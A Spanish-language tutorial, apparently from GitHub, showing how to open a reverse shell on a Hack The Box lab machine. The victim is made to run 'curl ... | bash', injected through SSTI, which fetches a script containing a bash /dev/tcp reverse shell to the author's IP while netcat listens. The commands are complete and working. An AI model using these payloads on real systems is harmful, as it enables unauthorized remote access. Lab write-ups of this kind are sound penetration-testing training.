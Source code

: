 # Como establecer una reverse Shell con el comando Curl

En este artículo vamos a ver como establecer una `reverse shell` mediante una petición con `Curl`.

## ¿Qué es Curl?

Curl es una herramienta cuya finalidad es transferir datos a través de una URL. Es un comando disponible en la mayoría de los
sistemas basados en Unix. Es una abreviatura de `Client URL`. Los comandos de Curl están diseñados para funcionar como una forma
de verificar la conectividad a las URL y como una gran herramienta para transferir datos.

![Captura de pantalla 2022-07-21 225432](https://user-images.githubusercontent.com/103068924/180313605-edaba56e-d31d-4c74-bf50-4db5bfa3b27e.png)

* Información más detallada del funcionamiento de Curl --> <a href='https://www.hostinger.es/tutoriales/comando-curl' style="text-decoration:none">Link</a>

# Ejecución:

Para realizar esta operación lo primero que debemos comprobar es que podamos realizar la petición desde el equipo víctima y que este tenga Curl instalado.
Una vez tenemos esto solucionado vamos a ver el funcionamiento de manera básica.

Cuando realizamos una petición con Curl desde la máquina víctima:

   curl [Ip de Escucha]
   
   curl 10.10.14.25
   
Y nosotros nos ponemos en escucha desde nuestra terminal, utilizando un servicio HTTP montado con Python 3 por el puerto 80:

   sudo python3 -m http.server 80

El funcionamiento es el siguiente, cuando Curl envía una petición a nuestro equipo, estamos realizando una petición a `HTTP` tratando de conseguir
un `Index.html` (Para poder interpretar la página), aquí es donde viene la trampa.

Lo que nosotros vamos a hacer es crear nuestro propio archivo `index.html`, de forma que por dentro tenga los comandos para establecer una reverse shell con bash.
De esta manera, cuando hagamos la petición por Curl y le ordenemos ejecutarlo con bash se nos abrirá la reverse shell que hayamos establecido.

El archivo `index.html` debe guardarse en el mismo directorio desde donde utilicemos el servicio HTTP. 

# Ejemplo Práctico:

Vamos a necesitar tres terminales, una desde donde ejecutar la petición por Curl desde el equipo víctima, una segunda donde usaremos el servicio HTTP para 
compartir el archivo `index.html` y una tercera donde nos pondremos en escucha con `NetCat` (Aquí recibiremos la reverse shell).

Lo primero que vamos a hacer es preparar nuestro archivo `index.html`, creamos una carpeta llamada `shell` independiente para que nos sea más fácil:

    sudo mkdit shell
    
![Captura de pantalla -2022-07-21 23-14-02](https://user-images.githubusercontent.com/103068924/180318634-9039e512-5dab-4cf7-99fb-d69fe8dcbca0.png)
    
    cd shell
    
![Captura de pantalla -2022-07-21 23-15-05](https://user-images.githubusercontent.com/103068924/180318659-f19f4da8-ff95-44fb-b46a-8f63f949987a.png)

Ahora creamos y definimos nuestro archivo `index.html`:

   sudo nano index.html
   
![Captura de pantalla -2022-07-21 23-15-52](https://user-images.githubusercontent.com/103068924/180318692-e916b8a3-e127-4171-98ee-b01605450d1e.png)
   
Copiamos y pegamos el siguiente código:

```
#!/bin/bash

bash -i >& /dev/tcp/[Vuestra Ip]/[Puesto de escucha de NetCat] 0>&1

```

Debería de quedar algo así:

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.25/443 0>&1
```

![Captura de pantalla -2022-07-21 23-16-43](https://user-images.githubusercontent.com/103068924/180318722-2a5ec9c3-9b86-48e4-bcdf-9f47bc9b7fb0.png)

Una vez copiado con vuestros datos, guardáis (Ctrl x O) y salís (Ctrl + X).

Bien, ya tenemos nuestra reverse shell en bash preparada y apuntado al puerto 443. Ahora, desde la misma terminal y permaneciendo en el directorio que contenga
el archivo que acabamos de crear, vamos a ejecutar el servicio HTTP con Python 3 para poder compartir el archivo `index.html`.

    sudo python3 -m http.server 80
    
![Captura de pantalla -2022-07-21 23-18-18](https://user-images.githubusercontent.com/103068924/180318750-583af3f0-3979-408a-8f19-24cbd4ac1e26.png)

![Captura de pantalla -2022-07-21 23-18-32](https://user-images.githubusercontent.com/103068924/180318759-76287747-7934-4bdd-b26b-fcd37566e552.png)
    
Abrimos nuestra segunda terminal y ponemos a `Netcat` en escucha por el puerto 443:

    sudo nc -lvnp 443
    
![Captura de pantalla -2022-07-21 23-18-57](https://user-images.githubusercontent.com/103068924/180318801-a0c03212-776c-406e-b262-ddfeb9f5937e.png)

![Captura de pantalla -2022-07-21 23-19-19](https://user-images.githubusercontent.com/103068924/180318810-361fce3a-2a9c-4a80-84e5-3a9761e055e5.png)
    
Ya tenemos nuestro puerto preparado para recibir la reversehe shell.
    
Finalmente, nos dirigimos a la terminal donde estemos en contacto con la víctima, es este ejemplo realizaré la petición usando BurpSuite ejecutando el comando
dentro de un SSTI. Pero básicamente, lo que debemos es realizar la siguiente petición desde el equipo víctima:

    curl 10.10.14.25 | bash
    
* `Curl` : Realizará la petición y copiará el archivo index.html desde nuestro servidor creado en Python 3.
* `bash` : Ordena la ejecución o interpretación del comando definido dentro del archivo, en nuestro caso, establecer una reverse shell por el puerto 443.

![Captura de pantalla 2022-07-21 231821](https://user-images.githubusercontent.com/103068924/180316903-81849cbf-96b0-4de3-a9f4-c7e0ab2e6610.png)

![Captura de pantalla 2022-07-21 231506](https://user-images.githubusercontent.com/103068924/180316657-1d03c885-ca4e-41b2-b55d-23f1a8e55b59.png)

Como podéis ver, el comando Curl está dentro de la inyección SSTI, de tal forma que ya solo quedaría enviar la petición. También podemos ver como en la terminal del servidor HTTP nos indica un `Get` con código de confirmación `200`.

![Captura de pantalla -2022-07-21 23-19-53](https://user-images.githubusercontent.com/103068924/180319019-ed62f921-811c-4b97-8b3d-2f9557c84a39.png)


Tras ejecutar este último comando se nos tendría que haber abierto una Shell en la terminal por la que estábamos en escucha con NetCat.

![Captura de pantalla -2022-07-21 23-20-30](https://user-images.githubusercontent.com/103068924/180319039-d19ac07c-d705-49d3-ba1f-237aa719bd23.png)

![Captura de pantalla -2022-07-21 23-20-07](https://user-images.githubusercontent.com/103068924/180319054-b99354ac-dc6f-4500-b035-6ce8b802428e.png)

Para este ejemplo hemos utilizado la máquina Nunchuchks de Hack the Box.


